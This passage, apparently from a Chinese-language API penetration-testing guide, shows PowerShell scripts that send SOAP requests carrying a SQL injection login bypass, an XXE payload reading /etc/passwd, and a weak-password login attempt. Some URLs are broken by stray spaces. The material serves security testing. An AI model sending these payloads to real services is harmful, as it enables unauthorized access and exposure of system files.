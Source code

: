 **方法**：像测试其他协议中的注入一样，您可以操作 SOAP 负载来测试 SQL 注入、XML 注入或其他注入漏洞。例如，您可以在 SOAP 请求中测试 SQL 注入：

```
 $uri = "http s:// api.snowcap cyber.com/soap-endpoint"
$soapPayload = @"
<soapenv:Envelope  >
   <soapenv:Header/>
   <soapenv:Body>
      <web:Login>
         <web:username>' OR '1'='1</web:username>
         <web:password>password</web:password>
      </web:Login>
   </soapenv:Body>
</soapenv:Envelope>
"@
$headers = @{
    "Content-Type" = "text/xml; charset=utf-8"
}
$response = Invoke-RestMethod -Uri $uri -Method POST -Headers $headers -Body $soapPayload
```

## OWASP 分析 – XXE

**目标**：测试 SOAP 消息中的 XXE 漏洞。

**方法**：类似于在 REST 中测试 XXE，您可以构造恶意的 XML 负载来测试 XXE 漏洞。例如，您可以在 SOAP 请求中测试 XXE：

```
 $uri = "http  s:// api.snowcap  cyber.com/soap-endpoint" $soapPayload = @"
<soapenv:Envelope  >
   <soapenv:Header/>
   <soapenv:Body>
      <web:ProcessXML>
         <web:xmlInput><![CDATA[<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "fil  e:/// etc/passwd"> ]><foo>&xxe;</foo>]]></web:xmlInput>
      </web:ProcessXML>
   </soapenv:Body>
</soapenv:Envelope>
"@
$headers = @{
    "Content-Type" = "text/xml; charset=utf-8"
}
$response = Invoke-RestMethod -Uri $uri -Method POST -Headers $headers -Body $soapPayload
```

## OWASP 分析 – 认证绕过

**目标**：评估基于 SOAP 的服务中的认证机制。

**方法**：通过构造具有各种认证场景的 SOAP 请求来测试认证绕过漏洞。例如，您可以测试弱认证：

```
 $uri = "http s:// ex amp le.com/soap-endpoint"
$soapPayload = @"
<soapenv:Envelope  >
   <soapenv:Header/>
   <soapenv:Body>
      <web:Login>
         <web:username>admin</web:username>
         <web:password>password123</web:password>
      </web:Login>
   </soapenv:Body>
</soapenv:Envelope>
"@
$headers = @{
    "Content-Type" = "text/xml; charset=utf-8"
```